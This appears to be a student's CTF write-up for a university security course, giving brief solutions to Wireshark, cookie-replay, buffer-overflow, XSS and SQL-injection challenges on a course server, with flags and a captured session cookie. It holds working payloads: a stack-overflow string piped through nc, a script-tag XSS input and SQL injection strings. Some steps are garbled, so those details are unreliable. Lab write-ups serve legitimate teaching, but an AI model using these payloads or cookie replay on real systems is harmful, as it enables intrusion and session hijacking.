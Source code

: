 ```yaml
---
layout: post
published: false
title: CS2107 - Assignment 2
---
```

# Introduction to wireshark
1. Download the pcap
2. right click the packet  > Follow > TCP stream
3. Flag is inside

code: `flag{b@bYsh@rk_doo0o0o_W1r3sh@rk_doOo0o_d0o0o0o_d0o_W1rEsh@rk}`

# Cookie Monster
1. Filter the wireshark by cookie `http.cookie`
2. Search for the cookie within the packet
	`cs2107 = 19d07781081e792d7a67d85c3cd1b061`
3. Enter the website in the packet: http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb (It mus say nice try)
4. Insert the cookie you have found in step 2

Flag: `http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb`

# Stack Overflow
1. Install indian in ubuntu
2. Little endian want ur input to be in this format: `0721CDAB`
3. `echo -n -e '\x07\x21\xcd\xab'`
4. Buffer overflow the programmer with 36 characters at the front 
5. Use pipelining to push the output into ur program 
	`echo -n -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | ./simple`
- [Idea](https://stackoverflow.com/questions/26949856/how-do-you-take-user-input-as-hex-characters-through-gets-function-linux)
6. Just do the same thing on the actual server
`echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | nc ctf.nus-cs2107.com 10003`

Flag: `flag{6e97e993d3caa7952c170accf2398f78}`

# XSS me
1. Enter the following into the textbox
`"><script>alert('gimme the flag pls')</script>`

Flag: `flag{R3fleCt3D_xSs_is_V3R7_34Sy_R1GH7?}`

# SQL Statment

## Level 1
- Insert: `1'!='1` in textbox

> `1` and `1` are not equal (Character)

Flag: `flag{WhO_dO3sN't_LOv3_Fr33_M4rk5!}`

## Level 2
- Insert: `1!=1; --or ' or 1=1-- or 1=1--` in textbox

Working:
- The `--` becomes a comment
- First query: Ignores the stuff behind the `--`
- Second query: Ignore the front before the `--` since its in quotes 
Flag: flag{pR3qU3l_1s_sO_mucH_eZ13r_wh3n_c0mP4r3D_tO_tH1$}`

